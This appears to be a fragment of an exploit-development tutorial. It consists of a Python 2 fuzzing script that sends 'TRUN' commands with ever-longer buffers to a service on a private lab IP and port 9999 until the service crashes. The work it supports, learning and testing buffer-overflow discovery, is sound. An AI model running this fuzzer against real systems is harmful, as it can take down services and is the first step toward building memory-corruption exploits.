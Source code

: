 ```python
#!/bin/python

import sys
import socket
from time import sleep

buffer = 'A'*100
while True:
        try:
                 s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                 s.connect(('192.168.40.135',9999))
                 
                 s.send(('TRUN / .:/' + buffer))
                 s.close()
                 sleep(1)
                 buffer = buffer + 'A'*100
        except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```
<img alt="" class="bg hc hd c" width="1000" height="600" loading="lazy" role="presentation" src="https://i.ibb.co/HqWLCm8/2Fuzzing.png">

